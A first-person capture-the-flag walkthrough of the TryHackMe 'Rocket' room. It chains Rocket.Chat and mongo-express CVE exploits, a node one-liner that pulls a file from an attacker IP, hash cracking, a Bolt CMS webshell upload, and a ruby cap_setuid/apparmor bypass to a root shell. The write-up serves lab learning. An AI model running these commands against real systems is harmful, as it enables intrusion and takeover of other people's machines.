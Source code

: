 # Rocket

https://tryhackme.com/room/rocket

Rated: HARD

This room is a quest, and has many steps before you find the first flag. In fact, the two flags are the final steps of this room, after a lot of work haha.

1. A scan reveals port 22 and 80. On 80 you are redirected to 'rocket.thm', which is a brochureware site. A bit of investigation reveals this to be built with Bolt CMS, which becomes important (much) later.
2. Enumerating sub-domains using ffuf, you can quickly find 'chat.rocket.thm', running an instance of rocket chat. There are a few CVEs for this, in particular CVE-2021-22911 which allows using a nosql injection to recover a password reset token. There is an exploit for this here https://www.exploit-db.com/exploits/49960, however it is slow as hell and requires a few modifications (removing assumed MFA, and changing the final payload to actually work) so instead I buildt my own here in rust: https://github.com/ChrisPritchard/CVE-2021-22911-rust. This just requires you update the IP address and then it will give you after *much less* time a limited interactive shell.
3. From there, in a docker container, getting a better shell can be tricky as there are no download tools. You can use rocketchat itself (with your new admin login) to upload files, but you can also do with a simple node one liner: `node -e 'require("http").get("http://10.10.16.78:1234/client", res => res.pipe(require("fs").createWriteStream("client")))'`. If this is tricky to get running through the shell, base64 encode it and decode it on the machine before running.
4. Enumerating the machine, you can find details of mongodb in the environment variables. If you create a pivot through the docker container (e.g. using chisel or reverse_ssh) you can access mongodb directly via a cli without creds, but there is nothing inside. Instead, the web interface on 172.17.0.4:8081 is interesting: while it requires creds to access, you can fingerprint it by it returning express in one of the response headers and its port 8081, plus being a mongodb web interface: this is mongo-express. 
5. There is an outstanding CVE for this, CVE-2019-10758. You don't need a custom tool for it, a simple one liner with curl from the attack box through proxychains will work: `proxychains curl 'http://172.17.0.4:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return pr")().mainModule.require("child_process").execSync("id")'`. This will return 'valid' if the command succeeds, which is helpful.
6. Using the above to get a shell on 172.17.0.4, its another locked down docker container. Enumerating it you can find a backups folder, `/backup/db_backup/meteor`. In here is a mongodb backup, but whats interesting is a file named `bson.hash` which contains a username:passwordhash combo. This can be cracked with hashcat or john the ripper - if using hashcat, make sure to include the username in the hash as its presented, then run hashcat with the --username flag (e.g. `hashcat.exe -m 3200 ../hash ../rockyou.txt --username` which will use the username as part of the bcrypt algorithm. this should break in seconds.
7. Back to the initial rocket.thm site, navigating to `/bolt` will reveal a login portal. Use the username in email form, e.g. user@rocket.thm as the username, and the password cracked above to get access to the bolt admin interface.
8. There are plenty of ways to get RCE from here - the simplest to me was to edit main configuration and add pgp to the allowed_media_types. After that, just upload a webshell using file management.
9. This gets you access as 'alvin' and *finally* the first flag.

The final root exploit is a little tricky.

To get to root, a simple enum will quickly reveal `/usr/bin/ruby2.5` has the cap_setuid capability. However, the machine is also running apparmor which restricts what files ruby2.5 can access (as seen in `/etc/apparmor.d/usr.bin/ruby2.5`). Namely, no shells, nothing you can own except files named `/tmp/.X[number]-lock`

Because you can't run a shell, or execute those tmp lock files, the path is a bit complex: instead of trying to run a shell, copy a shell into tmp with this allowed file name as your normal user, mark it as a suid binary, then use ruby2.5 to copy it as the root user while preserving its mode, creating a root-owned suid bash binary you can then run as alvin.

This is complicated initially by the fact that the setuid capability or how apparmor works makes this fail using anything but a *proper* proper shell. To get one, I added my public key into a .ssh/authorized_keys file for alvin, then ssh'd in formally. This seems to resolve EPERM issues running `Process::Sys.setuid(0)`.

Finally, after copying `/bin/bash` to `/tmp/.X1-lock`, I copied it with `ruby2.5 -e 'Process::Sys.setuid(0); exec "cp --preserve=mode /tmp/.X1-lock /tmp/.X2-lock"'`. I could then run `/tmp/.X2-lock -p` to get a full root shell and the final flag.

A complex room! Took me a loooooong time over many attempts, the occasional hints from walkthroughs to get here.
